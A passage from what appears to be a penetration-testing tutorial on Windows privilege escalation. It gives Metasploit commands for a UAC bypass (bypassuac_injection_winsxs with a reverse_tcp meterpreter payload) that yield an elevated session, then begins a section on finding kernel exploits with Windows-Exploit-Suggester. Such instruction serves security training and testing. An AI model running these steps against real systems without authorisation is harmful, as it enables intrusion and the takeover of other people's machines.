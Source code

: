 1. The first step in this process is to obtain a meterpreter session on the target system, after which, you will need to put your meterpreter session in the background. This can be done by running the following command in meterpreter:

        background

1. We can now search for UAC modules by running the following command:

        search bypassuac

    As highlighted in the following screenshot, we will be utilizing the “bypassuac_injection_winsxs” module as it is the only module that works on Windows 10 systems.

    ![search bypassuac output](search-bypassuac-output.png "search bypassuac output")

1. We can now load the bypass UAC module by running the following command:

        use module exploit/windows/local/bypassuac_injection_winsxs

1. After loading the module, we will need to configure the module options, this can be done by running the following commands:

        set payload windows/x64/meterpreter/reverse_tcp
        set target Windows x64
        set SESSION <SESSION-ID>

1. After configuring the module options, we can now execute the module by running the following command:

        run

1. If successful, the module will send the meterpreter stage to the target and you should receive an elevated meterpreter session as shown in the following screenshot.

    ![Metasploit elevated meterpreter session](metasploit-elevated-meterpreter-session.png "Metasploit elevated meterpreter session")

1. We can confirm that we have an elevated session by listing out the Windows privileges for our current user, this can be done by running the following command in meterpreter:

        getprivs

    ![getprivs output](getprivs-output.png "getprivs output")

    As shown in the preceding screenshot, this meterpreter session has administrative privileges and we can migrate to an NT AUTHORITY/SYSTEM process.

## Windows Kernel Exploits

We can exploit vulnerabilities in the Windows NT kernel in an attempt to elevate our privileges. The exploitation of a vulnerability in the Windows kernel occurs when an adversary takes advantage of a programming error in the kernel to execute adversary-controlled code.

We can begin the kernel exploitation process by taking a look at how to identify and transfer kernel exploits onto our target system. For this section, our target system will be running Windows 7. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session:

1. The first step is to scan and identify potential kernel vulnerabilities. This can be done through the use of the Windows-Exploit-Suggester tool. The Windows-Exploit-Suggester script can be downloaded from this link: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
